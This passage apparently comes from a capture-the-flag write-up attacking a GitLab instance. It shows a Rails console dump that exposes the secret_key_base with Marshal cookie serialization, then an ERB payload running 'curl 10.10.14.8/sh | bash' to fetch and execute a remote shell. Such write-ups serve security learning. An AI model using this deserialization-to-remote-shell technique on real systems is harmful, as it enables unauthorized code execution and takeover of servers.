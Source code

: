     => #<ActionDispatch::Cookies::CookieJar:0x00007f0e7fafdb80 @set_cookies={}, @delete_cookies={}, @request=#<ActionDispatch::Request:0x00007f0e7ecc92f8 @env={"action_dispatch.parameter_filter"=>[/token$/, /password/, /secret/, /key$/, /^body$/, /^description$/, /^note$/, /^text$/, /^title$/, :certificate, :encrypted_key, :hook, :import_url, :otp_attempt, :sentry_dsn, :trace, :variables, :content, :sharedSecret, /^((?-mix:client_secret|code|authentication_token|access_token|refresh_token))$/], "action_dispatch.redirect_filter"=>[], "action_dispatch.secret_key_base"=>"3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3", "action_dispatch.show_exceptions"=>true, "action_dispatch.show_detailed_exceptions"=>false, "action_dispatch.logger"=>#<ActiveSupport::Logger:0x00007f0e843f29f8 @level=1, @progname=nil, @default_formatter=#<Logger::Formatter:0x00007f0e84342300 @datetime_format=nil>, @formatter=#<ActiveSupport::Logger::SimpleFormatter:0x00007f0e843f29d0 @datetime_format=nil, @thread_key="activesupport_tagged_logging_tags:69850162500840">, @logdev=#<Logger::LogDevice:0x00007f0e843422b0 @shift_period_suffix=nil, @shift_size=nil, @shift_age=nil, @filename=nil, @dev=#<File:/opt/gitlab/embedded/service/gitlab-rails/log/production.log>, @mon_mutex=#<Thread::Mutex:0x00007f0e84342238>, @mon_mutex_owner_object_id=69850162139480, @mon_owner=nil, @mon_count=0>>, "action_dispatch.backtrace_cleaner"=>#<Rails::BacktraceCleaner:0x00007f0e8f9a0548 @silencers=[#<Proc:0x00007f0e8bff90b0@/opt/gitlab/embedded/service/gitlab-rails/config/initializers/backtrace_silencers.rb:8>], @filters=[#<Proc:0x00007f0e8f9b5d58@/opt/gitlab/embedded/lib/ruby/gems/2.6.0/gems/activesupport-6.0.2/lib/active_support/backtrace_cleaner.rb:97>, #<Proc:0x00007f0e8f9b5880@/opt/gitlab/embedded/lib/ruby/gems/2.6.0/gems/railties-6.0.2/lib/rails/backtrace_cleaner.rb:16>, #<Proc:0x00007f0e8f9b56c8@/opt/gitlab/embedded/lib/ruby/gems/2.6.0/gems/railties-6.0.2/lib/rails/backtrace_cleaner.rb:17>, #<Proc:0x00007f0e8f9b5650@/opt/gitlab/embedded/lib/ruby/gems/2.6.0/gems/railties-6.0.2/lib/rails/backtrace_cleaner.rb:18>], @root="/opt/gitlab/embedded/service/gitlab-rails/">, "action_dispatch.key_generator"=>#<ActiveSupport::CachingKeyGenerator:0x00007f0e7fddebd8 @key_generator=#<ActiveSupport::KeyGenerator:0x00007f0e7fddec00 @secret="3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3", @iterations=1000>, @cache_keys=#<Concurrent::Map:0x00007f0e7fddebb0 entries=1 default_proc=nil>>, "action_dispatch.http_auth_salt"=>"http authentication", "action_dispatch.signed_cookie_salt"=>"signed cookie", "action_dispatch.encrypted_cookie_salt"=>"encrypted cookie", "action_dispatch.encrypted_signed_cookie_salt"=>"signed encrypted cookie", "action_dispatch.authenticated_encrypted_cookie_salt"=>"authenticated encrypted cookie", "action_dispatch.use_authenticated_cookie_encryption"=>false, "action_dispatch.encrypted_cookie_cipher"=>nil, "action_dispatch.signed_cookie_digest"=>nil, "action_dispatch.cookies_serializer"=>:marshal, "action_dispatch.cookies_digest"=>nil, "action_dispatch.cookies_rotations"=>#<ActiveSupport::Messages::RotationConfiguration:0x00007f0e98bedf18 @signed=[], @encrypted=[]>, "action_dispatch.use_cookies_with_metadata"=>false, "action_dispatch.content_security_policy"=>nil, "action_dispatch.content_security_policy_report_only"=>false, "action_dispatch.content_security_policy_nonce_generator"=>nil, "action_dispatch.content_security_policy_nonce_directives"=>nil, "rack.request.cookie_hash"=>{}, "action_dispatch.cookies"=>#<ActionDispatch::Cookies::CookieJar:0x00007f0e7fafdb80 ...>}, @filtered_parameters=nil, @filtered_env=nil, @filtered_path=nil, @protocol=nil, @port=nil, @method=nil, @request_method=nil, @remote_ip=nil, @original_fullpath=nil, @fullpath=nil, @ip=nil>, @cookies={}, @committed=false>



At this point it's time to set the payload. I'll use a simple curl to
myself piping the results into `sh`:



    irb(main):005:0> erb = ERB.new("<%= `curl 10.10.14.8/sh | bash` %>")
    => #<ERB:0x00007f0e7b4f89f0 @safe_level=nil, @src="#coding:UTF-8\n_erbout = +''; _erbout.<<(( `curl 10.10.14.8/sh | bash` ).to_s); _erbout", @encoding=#<Encoding:UTF-8>, @frozen_string=nil, @filename=nil, @lineno=0>


